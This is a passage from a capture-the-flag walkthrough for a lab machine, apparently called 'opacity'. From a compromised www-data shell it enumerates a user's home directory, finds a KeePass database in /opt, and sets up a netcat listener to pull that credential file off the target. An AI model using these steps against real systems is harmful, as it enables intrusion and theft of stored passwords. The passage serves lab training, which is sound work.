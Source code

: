 Now, let's explore the system to see what we can find.

```
www-data@opacity:/$ whoami
whoami
www-data
www-data@opacity:/$ pwd
pwd
/
www-data@opacity:/$ cd home
cd home
www-data@opacity:/home$ ls   
ls
sysadmin
www-data@opacity:/home$ cd sysadmin
cd sysadmin
www-data@opacity:/home/sysadmin$ ls -la
ls -la
total 44
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22 08:16 .
drwxr-xr-x 3 root     root     4096 Jul 26  2022 ..
-rw------- 1 sysadmin sysadmin   22 Feb 22 08:09 .bash_history
-rw-r--r-- 1 sysadmin sysadmin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin 3771 Feb 25  2020 .bashrc
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .cache
drwx------ 3 sysadmin sysadmin 4096 Jul 28  2022 .gnupg
-rw-r--r-- 1 sysadmin sysadmin  807 Feb 25  2020 .profile
drwx------ 2 sysadmin sysadmin 4096 Jul 26  2022 .ssh
-rw-r--r-- 1 sysadmin sysadmin    0 Jul 28  2022 .sudo_as_admin_successful
-rw------- 1 sysadmin sysadmin   33 Jul 26  2022 local.txt
drwxr-xr-x 3 root     root     4096 Jul  8  2022 scripts
www-data@opacity:/home/sysadmin$ 
```

The user flag (`local.txt`) is there, but we do not have the required permission to read it.

Let's navigate through other directories and see if there's something that can help in privilege escalation.

There's a file with `.kdbx` extension. This could be a KeePass file.

```
www-data@opacity:/opt$ ls -la
ls -la
total 12
drwxr-xr-x  2 root     root     4096 Jul 26  2022 .
drwxr-xr-x 19 root     root     4096 Jul 26  2022 ..
-rwxrwxr-x  1 sysadmin sysadmin 1566 Jul  8  2022 dataset.kdbx
```

Let's download the file.

In your machine, set up a listener:

```
$ nc -lnvp 9999 > dataset.kdbx
```
